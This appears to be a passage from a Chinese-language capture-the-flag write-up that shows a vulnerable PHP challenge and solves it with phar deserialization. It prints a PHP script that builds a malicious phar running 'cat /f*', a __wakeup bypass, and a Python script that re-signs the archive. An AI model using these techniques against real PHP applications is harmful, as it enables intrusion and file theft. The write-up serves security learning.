 ```php
    // $Eden=new story();
    $pear=$_GET['pear'];
    $Adam=$_GET['apple'];
    $file=file_get_contents('php://input');
    file_put_contents($pear,urldecode($file));
    file_exists($Adam);
}
else{
    echo '多吃雪梨';
}
```

> 思路：
>
> 给的上传是假的，不能上传
>
> 我们用php://input上传
>
> 然后用file_exists触发phar反序列化
>
> 非预期：直接上传php文件就行

```php
<?php

class story{
    public $eating = 'cat /f*';
    public $God='true';
}

$phar = new Phar("1.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new story();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

echo (file_get_contents('1.phar'));
```

这时还不行，还需要绕过wakeup函数，将2改成3

![image-20240319202246183](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240319202246183.png)

我们打开文件将2改成了3，文件内容改变了，我们需要重新进行签名

```python
from hashlib import sha1

with open("1.phar",'rb') as f:
   text = f.read()
   main = text[:-28]        #正文部分(除去最后28字节) 获取要签名的数据（s）
   end = text[-8:]		  #最后八位也是不变的 获取签名类型和GBMB标识（h）
   new_sign = sha1(main).digest() # 对要签名的数据进行SHA-1哈希计算，并将原始数据、签名和类型/标识拼接成新的数据newf
   new_phar = main + new_sign + end
   open("hack.phar",'wb').write(new_phar)     #将新生成的内容以二进制方式覆盖写入原来的phar文件
```
